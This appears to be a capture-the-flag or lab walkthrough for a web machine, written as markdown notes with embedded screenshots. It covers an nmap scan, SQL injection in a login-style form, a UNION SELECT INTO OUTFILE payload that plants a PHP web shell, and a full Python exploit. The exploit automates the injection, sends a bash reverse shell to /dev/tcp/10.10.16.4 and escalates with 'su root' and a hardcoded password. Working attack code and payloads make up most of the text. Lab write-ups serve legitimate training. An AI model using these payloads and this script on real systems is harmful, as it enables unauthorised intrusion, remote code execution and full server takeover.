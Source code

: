 ```bash
nmap -p22,80,8080 -sCV -n -Pn -vvv --min-rate 5000 -oN ./scans/targeted
```

![[Pasted image 20250416220621.png]]
Our first interest is the [[port 80]], we can find something there.
at the web we found this form:
![[Pasted image 20250416222102.png]]
using [[Burpsuite]] we can intercept the request of that and try with [[SQL Injection]]

so, we try send a SQL query injection to test
![[Pasted image 20250416222918.png]]
and this is the response:
![[Pasted image 20250416223125.png]]
so we have a via with SQL Injection.

then we have a way to write a [[reverse shell]] in [[PHP]] using [[SQL]] with the next input:

```mysql
UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/test.php"-- -
```

and we have [[Remote Code Execution (RCE)]]
![[Pasted image 20250416230326.png]]

we can automate all the process with the next exploit:
```python
#!/usr/bin/python3

import signal
import requests
import sys
import threading
import time
from pwn import listen


def handler(sig, frame):
    print("\n\n[!] Exiting\n")
    sys.exit(1)


signal.signal(signal.SIGINT, handler)

if len(sys.argv) != 3:
    log.failure("Usage: %s <ip-address> filename" % sys.argv[0])
    sys.exit(1)

lport = 9001
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address


def create_file():
    data_post = {
        "username": "canary",
        "country": """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -"""
        % filename,
    }

    r = requests.post(main_url, data=data_post)


def get_access():
    data_post = {"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.4/%s 0>&1'" % lport}

    r = requests.post(main_url + "%s" % filename, data=data_post)


if __name__ == "__main__":
    create_file()
    try:
        threading.Thread(target=get_access, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    cmd = "su root"
    shell.sendline(cmd.encode())

    time.sleep(2)
    password = "uhc-9qual-global-pw"
    shell.sendline(password.encode())

    shell.interactive()
```
